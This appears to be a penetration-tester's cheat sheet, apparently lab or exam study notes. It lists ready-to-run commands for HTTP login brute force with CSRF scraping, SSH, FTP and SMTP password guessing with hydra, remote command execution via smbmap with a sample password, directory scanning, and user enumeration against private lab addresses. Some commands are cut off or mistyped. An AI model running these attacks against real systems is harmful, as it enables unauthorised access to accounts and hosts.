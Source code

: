 ```bash
  url="http://git.example.com/user/login" \
  method=POST \
  body="_csrf=CSRF_TOKEN&username=FILE0&password=FILE1" \
  0=/mnt/users.lst \
  1=/mnt/500-worst-passwords.txt \
  header="Content-Type: application/x-www-form-urlencoded" \
  before_urls="http://git.example.com/user/login" \
  before_egrep="CSRF_TOKEN='name=\"_csrf\" value=\"(\w+)\"'" \
  -x ignore:fgrep="Username or password is incorrect"


smbmap -u maildmz -p password123 -d boringcomp.com -H 192.168.153.191 -x "whoami"
```

# HTTP Scanning
Gobuster above
Feroxbuster:
```bash
sudo feroxbuster -u https://192.168.106.140:443 -w /usr/share/wordlists/dirb/common.txt -A -k --scan-dir-listings
# -A randomizes user-agent
# -k ignores TLS cert
```

# SSH Brute Force
```bash
hydra -l "issue_user" -P /usr/share/wordlists/seclists/Passwords/500-worst-passwords.txt -vV 192.168.166.147 ssh -t 4 -I
```

# FTP Brute Force
```bash
hydra -t 1 -l admin -P /root/Desktop/password.lst -vV $ip ftp
# Brute force Anonymous login for a given list of users
hydra -L /path/to/usernames.txt -p anypassword ftp://<target-ip> (-s port)
```
# MySQL Brute Force
```msfconsole
use auxiliary/scanner/mysql/mysql_login
```
# SMTP User Enumeration
```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $ip

hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V
```
